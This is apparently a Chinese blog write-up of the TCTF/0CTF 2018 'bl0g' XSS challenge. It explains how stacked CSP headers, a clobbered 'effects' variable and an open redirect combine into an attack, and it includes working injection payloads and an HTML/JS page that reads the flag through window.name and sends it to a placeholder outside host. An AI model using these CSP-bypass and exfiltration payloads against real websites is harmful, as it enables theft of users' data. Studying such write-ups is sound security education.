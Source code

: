 ```yaml
---
title: TCTF/0CTF2018 XSS bl0g Writeup
date: 2018-04-05 00:01:03
tags:
- CSP
- xss
---
```


刚刚过去的TCTF/0CTF2018一如既往的给了我们惊喜，其中最大的惊喜莫过于多道xss中Bypass CSP的题目，其中有很多多应用于现代网站的防御思路，其中的很多利用思路非常精巧，值得研究，所以这里我把xss题目单独出来博文，因为它们值得更多关注！

ps：writeup会在我复现整理完后不断分享出来...

<!--more-->


# bl0g #

```
An extremely secure blog

Just focus on the static files. plz do not use any scanner, or your IP will be blocked.
```

很有趣的题目，整个题的难点在于利用上

站内的功能都是比较常见的xss功能

1、new  新生成文章
2、article/xx 查看文章/评论
3、submit 提交url (start with http://202.120.7.197:8090/)
4、flag admin可以查看到正确的flag

还有一些隐藏的条件

1、CSP

```
Content-Security-Policy:
script-src 'self' 'unsafe-inline'

Content-Security-Policy:
default-src 'none'; script-src 'nonce-hAovzHMfA+dpxVdTXRzpZq72Fjs=' 'strict-dynamic'; style-src 'self'; img-src 'self' data:; media-src 'self'; font-src 'self' data:; connect-src 'self'; base-uri 'none'
```

挺有趣的写法，经过我的测试，两个CSP分开写，是同时生效并且单独生效的，也就是与的关系。

换个说法就是，假设我们通过动态生成script标签的方式，成功绕过了第二个CSP，但我们引入了`<script src="hacker.website">`，就会被第一条CSP拦截，很有趣的技巧。

从CSP我们也可以简单窥得一些利用思路，`base-uri 'none'`代表我们没办法通过修改根域来实现攻击，`default-src 'none'`这其中包含了`frame-src`，这代表攻击方式一定在站内实现，`script-src`的双限制代表我们只能通过`<script>{eval_code}`的方式来实现攻击，让我们接着往下看。

2、new中有一个字段是effect，是设置特效的

```
POST /new HTTP/1.1
Host: 202.120.7.197:8090
Connection: keep-alive
Content-Length: 35
Cache-Control: max-age=0
Origin: http://202.120.7.197:8090
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://202.120.7.197:8090/new
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: BL0G_SID=vV1p59LGb01C4ys4SIFNve4d_upQrCpyykkXWmj4g-i8u2QQzngP5LIW28L0oB1_NB3cJn0TCwjdE32iBt6h

title=a&content=a&effect=nest
```

effect字段会插入到页面中的`<input type="hidden" id="effect" value="{effect_value}">`，但这里实际上是没有任何过滤的，也就是说我们可以通过闭合这个标签并插入我们想要的标签，需要注意的是，这个点只能插入**70个字符**。

3、login?next=这个点可以存在一个任意跳转，通过这个点，我们可以绕过submit的限制（submit的maxlength是前台限制，可以随便跳转

4、站内的特效是通过jqery的append引入的，在article.js这个文件中。

```
$(document).ready(function(){
    $("body").append((effects[$("#effect").val()]));
});
```

effects在config.js中被定义。


回顾上面的几个条件，我们可以简单的整理思路。

**在不考虑0day的情况下，我们唯有通过想办法通过动态生成script标签，通过sd CSP这个点来绕过**

首先我们观察xss点周围的html结构

![image.png-21.3kB][1]

在整站不开启任何缓存的情况下，通过插入标签的方式，唯一存在一种绕过方式就是插入`<script a="`

这种插入方式，如果插入点在一个原页面的script标签前的话，有几率吃掉下一个script标签的nonce属性，举个例子：

```
<script a="
<script nonce="testtt">...

浏览器有一定的容错能力，他会补足不完整的标签
=====>

<script a="<script" nonce="test">...
```

但这个操作在这里并不适用，因为中间过多无用标签，再加上即使吞了也不能有什么办法控制后面的内容，所以这里只有一种绕过方式就是dom xss。

稍微翻翻可以发现，唯一的机会就在这里
```
$(document).ready(function(){
    $("body").append((effects[$("#effect").val()]));
});
```

如果我们可以覆盖effects变量，那我们就可以向body注入标签了，这里需要一点小trick。

**在js中，对于特定的form,iframe,applet,embed,object,img标签，我们可以通过设置id或者name来使得通过id或name获取标签**

也就是说，我们可以通过`effects`获取到`<form name=effects>`这个标签。同理，我们就可以通过插入这个标签来注册effects这个变量。

可如果我们尝试插入这个标签后，我们发现插入的effects在接下来的config.js中被覆盖了。

这时候我们回到刚才提到的特性，**浏览器有一定的容错能力**，我们可以通过插入`<script>`，那么这个标签会自动闭合后面config.js的`</script>`，那么中间的代码就会被视为js代码，被CSP拦截。

![image.png-34.4kB][2]

我们成功的覆盖了effects变量，紧接着我们需要覆盖`effects[$("#effect").val()]`，这里我们选择id属性（这里其实是为了id会使用两次，可以更省位数），

所以我们尝试传入

```
effect=id"><form name=effects id="<script>alert(1)</script>"><script>
```

![image.png-16.9kB][3]

成功执行

接下来的问题就在于怎么构造获取flag了，这里最大的问题在于怎么解决位数不够的问题，我们可以简单计算一下。

上面的payload最简化可以是

```
id"><form name=effects id="<script>"><script>
```

一共有45位，我们可以操作的位数只有25位。在有限的位数下我们需要获取flag页面的内容，并返回回来，我一时间没想到什么好办法。

下面写一种来自@超威蓝猫的解法，非常有趣的思路，payload大概是这样的

[https://blog.cal1.cn/post/0CTF%202018%20Quals%20Bl0g%20writeup](https://blog.cal1.cn/post/0CTF%202018%20Quals%20Bl0g%20writeup)

```
id"><form name=effects id="<script>$.get('/flag',e=>name=e)"><script>
```

通过jquery get获取flag内容，通过箭头函数将返回赋值给`window.name`，紧接着，我们需要想办法获取这里的window.name。

这里用到一个特殊的跨域操作

[http://www.cnblogs.com/zichi/p/4620656.html](http://www.cnblogs.com/zichi/p/4620656.html)

这里用到了一个特殊的特性，就是window.name不跟随域变化而变化，通过window.name我们可以缓存原本的数据。

完整payload
```
<html>
</html>

<script>
var i=document.createElement("iframe");
i.src="http://202.120.7.197:8090/article/3503";
i.id="a";
var state = 0;
document.body.appendChild(i);

i.onload = function (){
	if(state === 1) {
	  	var c = i.contentWindow.name;
	        location.href="http://xx?c="+c;

	} else if(state === 0) {
	  	state = 1;
	  	i.contentWindow.location = './index.html';
	}
}

</script>
```

然后通过`login?next=`这里来跳转到这里，成功理顺

最后分享一个本环境受限的脑洞想法（我觉得蛮有意思的

这个思路受限于当前页面CSP没有`unsafe-eval`，刚才说到`window.name`不随域变化而变化，那么我们传入payload

```
id"><form name=effects id="<script>eval(name)"><script>
```

然后在自己的服务器上设置

```
<script>
window.name="alert(1)";
location.href="{article_url}";
</script>
```

这样我们就能设置window.name了，如果允许eval的话，就可以通过这种方式绕过长度限制。









  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/bz7gl9fs2q89pvezn6xm03xb/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/io54g5yal3om63po5w4e9qvn/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4wljy4njhwsq583n1cpz8rvi/image.png
